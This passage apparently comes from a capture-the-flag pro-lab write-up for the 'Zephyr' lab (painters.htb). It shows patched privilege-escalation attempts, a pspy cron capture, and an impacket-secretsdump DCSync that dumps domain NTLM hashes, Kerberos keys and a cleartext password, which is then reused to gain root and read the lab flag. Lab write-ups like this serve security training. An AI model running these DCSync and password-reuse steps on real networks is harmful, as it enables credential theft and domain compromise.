[+] Calling execve()
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
riley@mail:/tmp$
```

Seems like even SAMBARON is fixed:

```
riley@mail:/tmp$ python3 exploit_nss.py 
Traceback (most recent call last):
  File "exploit_nss.py", line 220, in <module>
    assert check_is_vuln(), "target is patched"
AssertionError: target is patched
riley@mail:/tmp$
```

Event checkin Riley's POP3 mailbox is empty:

```
Connection closed by foreign host.
riley@mail:/tmp$ telnet 127.0.0.1 110
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
+OK Dovecot (Ubuntu) ready.
USER riley
+OK
PASS P@ssw0rd
+OK Logged in.

-ERR Unknown command: 
STAT
+OK 0 0
LIST    
+OK 0 messages:
.
```

But from PSPY I can see that a restore script is run adn we can see a query that is sent to the DB backend:

```
2023/09/08 11:56:52 CMD: UID=0     PID=24613  | 
2023/09/08 12:00:01 CMD: UID=0     PID=24617  | /usr/sbin/CRON -f 
2023/09/08 12:00:01 CMD: UID=0     PID=24619  | /bin/bash -c /root/scripts/restore.sh 
2023/09/08 12:00:01 CMD: UID=0     PID=24618  | /bin/sh -c /bin/bash -c /root/scripts/restore.sh 
2023/09/08 12:00:01 CMD: UID=0     PID=24620  | mysql painter -e update users set password='$2y$10$7BLIFYjCq4PF0U3ZH86b1eQLfO9EEIO.GRQMKM5XX02FAbBFd95j2' where username='admin';
```

I can try to crack this password but most likely is not going to work out. I checked on the discord server and apparently "Back Tracking" is supposed to be a side quest:


I guess we have to come back later when we pwned the whole machine and we have more password and users available on the machine.

* * *

## Back packing:

Now here I asked for help and apparently I missed that when I performed the first DCSync attack on PAINTERS.htb, and was to checking the password history. By default Secretsdump do it automatically where instead mimikatz.exe(the one I used) need to tell it as paramenter.

Anyway re-running another DCSYNC but this time as secretsdump and we can see att the bottom of the file a password history(old PASS) for the user MATT:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-secretsdump PAINTERS/Administrator@192.168.110.55 -just-dc -hashes :5bdd6a33efe43f0dc7e3b2435579aa53 -history       
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5bdd6a33efe43f0dc7e3b2435579aa53:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b59ffc1f7fcd615577dab8436d3988fc:::
riley:1106:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
blake:1107:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
gavin:1108:aad3b435b51404eeaad3b435b51404ee:cb8ec920398da9fbb7c33b7b613b28d5:::
daniel:1109:aad3b435b51404eeaad3b435b51404ee:b084c663ad3f214e516e6f89c81c80d7:::
tom:1110:aad3b435b51404eeaad3b435b51404ee:dc51a409ab6cf835cbb9e471f27d8bc6:::
web_svc:1111:aad3b435b51404eeaad3b435b51404ee:502472f625746727fa99566032383067:::
painters.htb\Matt:4101:aad3b435b51404eeaad3b435b51404ee:5e3c0abbe0b4163c5612afe25c69ced6:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:5869ab656006ee71af41d437a6788093:::
PNT-SVRSVC$:1103:aad3b435b51404eeaad3b435b51404ee:c206d294c947cecc0e60955004ff96c5:::
PNT-SVRBPA$:1104:aad3b435b51404eeaad3b435b51404ee:2dfcebbe9f5f4cb3bf98032887b3d7b6:::
PNT-SVRPSB$:1105:aad3b435b51404eeaad3b435b51404ee:7fc6b6b4b44a96617b5829a888b5a85a:::
MAINTENANCE$:2101:aad3b435b51404eeaad3b435b51404ee:fa8cde2a742ad8f6eb16e3d4bd5ed80b:::
WORKSTATION-1$:2103:aad3b435b51404eeaad3b435b51404ee:9ab46ef513f6f74ddf1ab492b8f542fa:::
ZSM$:2102:aad3b435b51404eeaad3b435b51404ee:361b72c33fe4fed5a9f30bdfc56bed56:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:d5d7a2fd36d4ede3aaf21537b504df92a32e2e70c37187efe42b6263897ead36
Administrator:aes128-cts-hmac-sha1-96:f6139559372a236bde1524329d2aa492
Administrator:des-cbc-md5:807c2a64b3c8b379
krbtgt:aes256-cts-hmac-sha1-96:39610acedf7a66db295ee28263e7ad75234ae7884dbde20a4890bf97f7b8872b
krbtgt:aes128-cts-hmac-sha1-96:9a6c9880f96f75edd17f648206fb5abd
krbtgt:des-cbc-md5:25f2432654101f40
riley:aes256-cts-hmac-sha1-96:2c9f84f81d7a76eb1f29193107fd2e51834962cc90cfcfafef7ab4baabe59360
riley:aes128-cts-hmac-sha1-96:bc65c97f9324894006a5e389ab91ccec
riley:des-cbc-md5:3e018f85012cc8b0
blake:aes256-cts-hmac-sha1-96:90011db02234765067c50a1cf8caeda018f5e3dea6de5d9aa26cdf0fe825e3ff
blake:aes128-cts-hmac-sha1-96:581021eeaca0b01d85a81e0856c8ba68
blake:des-cbc-md5:31dc5d51a423bfe6
gavin:aes256-cts-hmac-sha1-96:fa583a1938a32986a2c23f7787aa2c3282b96259c89070a01a19e256b58f9992
gavin:aes128-cts-hmac-sha1-96:fbcae12c4967569b398868fb38f0b300
gavin:des-cbc-md5:b54f67f19d8ab367
daniel:aes256-cts-hmac-sha1-96:8bb18fd1df9c7eecfa5c4de65ca4fda6c37efc98a2c94ef8edf8a4e606bc6ffd
daniel:aes128-cts-hmac-sha1-96:ba81e1c1fb60c279aa5c685ede732c8e
daniel:des-cbc-md5:a7455b207f1570ad
tom:aes256-cts-hmac-sha1-96:657f8676662fc4f5ad5bca4c19f1576ff1ce200fa5418860a5483f99d0d05888
tom:aes128-cts-hmac-sha1-96:b1c6797bf5e899d09cf865d30470bb7c
tom:des-cbc-md5:2aea89cb23b6f246
web_svc:aes256-cts-hmac-sha1-96:bc2600db46b90a0deffc6a34f60f9574b82ede49e71d4cf337f11ddf290993d8
web_svc:aes128-cts-hmac-sha1-96:e9c960b6403d6aa5b6b79885e1cc11b0
web_svc:des-cbc-md5:e6b986ae31e34a20
painters.htb\Matt:aes256-cts-hmac-sha1-96:42656beb2852a473c35498f55fbe113d4d722bb2efb36b1689d9b1a60e9cfa03
painters.htb\Matt:aes128-cts-hmac-sha1-96:a79e61bd0ca1d5760d5178e6010af2f7
painters.htb\Matt:des-cbc-md5:624c3458945b4675
DC$:aes256-cts-hmac-sha1-96:3ed6c9f397b46b39a4099ef6ffb834168f1b7abedde82561cee74d3f2cfb1f73
DC$:aes128-cts-hmac-sha1-96:c26f7ec4b891b19151704ac3a45ae0fe
DC$:des-cbc-md5:5e3b4cb002b3f289
PNT-SVRSVC$:aes256-cts-hmac-sha1-96:a31b4a0de42a441e47dad46f283105a9eeaf023831336cf2b2933c2907a63c4a
PNT-SVRSVC$:aes128-cts-hmac-sha1-96:0f5239792536fef683f21de1925b8ca4
PNT-SVRSVC$:des-cbc-md5:0db9624308c7c76b
PNT-SVRBPA$:aes256-cts-hmac-sha1-96:09f22fb6cd45a7a633854dcb861371f7af81676d336121d383c35328c127bee4
PNT-SVRBPA$:aes128-cts-hmac-sha1-96:a064d5c19ffd7dc845c31cbc9bbcc85d
PNT-SVRBPA$:des-cbc-md5:cdec8ff8e9041cb0
PNT-SVRPSB$:aes256-cts-hmac-sha1-96:543458b7a3d85c5f48438b5096ba4653e73ca7291b797691ee96368255ffbab6
PNT-SVRPSB$:aes128-cts-hmac-sha1-96:5db252e5f61efa9b6cfa4404ccc975e7
PNT-SVRPSB$:des-cbc-md5:29f78975e5f20b7f
MAINTENANCE$:aes256-cts-hmac-sha1-96:4472d4842f69434d717ca25949ce8d66f6ddc2e1f3904c80627c83ebbdc12ca8
MAINTENANCE$:aes128-cts-hmac-sha1-96:8ca28dd69ef0ff361a6e00489e114466
MAINTENANCE$:des-cbc-md5:a452e52ad5dfb6d5
WORKSTATION-1$:aes256-cts-hmac-sha1-96:f65b04cc76d8dc57579d12a0b29b294f6fc25c947fbf7e5dde6c3639330f73c0
WORKSTATION-1$:aes128-cts-hmac-sha1-96:729c49ae39c12a40da4ffb2267366f87
WORKSTATION-1$:des-cbc-md5:f4e00e6bcbe35e62
ZSM$:aes256-cts-hmac-sha1-96:d466a31821a39b0f09d224596d635e01cd48ae2fa513b4311d4f7659e00ac885
ZSM$:aes128-cts-hmac-sha1-96:7fd5f40fa7de5d9e928855dd21e7e605
ZSM$:des-cbc-md5:83b562251fec837f
[*] ClearText passwords grabbed
painters.htb\Matt:CLEARTEXT:L1f30f4Spr1ngCh1ck3n!
[*] Cleaning up...
```

Now that we have another password we could try that password on matt in this machine?

```
riley@mail:/tmp$ su - matt
Password: 
matt@mail:~$ sudo -l
[sudo] password for matt: 
Matching Defaults entries for matt on mail:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User matt may run the following commands on mail:
    (ALL : ALL) ALL
matt@mail:~$
```

nice he can login and have all the sudo permissions!

And likewise we can get all the possible flags!

```
root@mail:~# ls
flag.txt  scripts
root@mail:~# ll
total 36
drwx------  5 root root 4096 Nov 29  2022 ./
drwxr-xr-x 18 root root 4096 Dec  8  2022 ../
lrwxrwxrwx  1 root root    9 Mar  7  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rw-r-----  1 root root   32 Oct 14  2022 flag.txt
drwxr-xr-x  3 root root 4096 Nov 29  2022 .local/
lrwxrwxrwx  1 root root    9 Oct 14  2022 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwxr-xr-x  2 root root 4096 Nov 29  2022 scripts/
-rw-r--r--  1 root root   66 Nov 29  2022 .selected_editor
drwx------  2 root root 4096 Mar  7  2022 .ssh/
root@mail:~# cat flag.txt 
ZEPHYR{L34v3_N0_St0n3_Un7urN3d}
root@mail:~#
```

&nbsp;

&nbsp;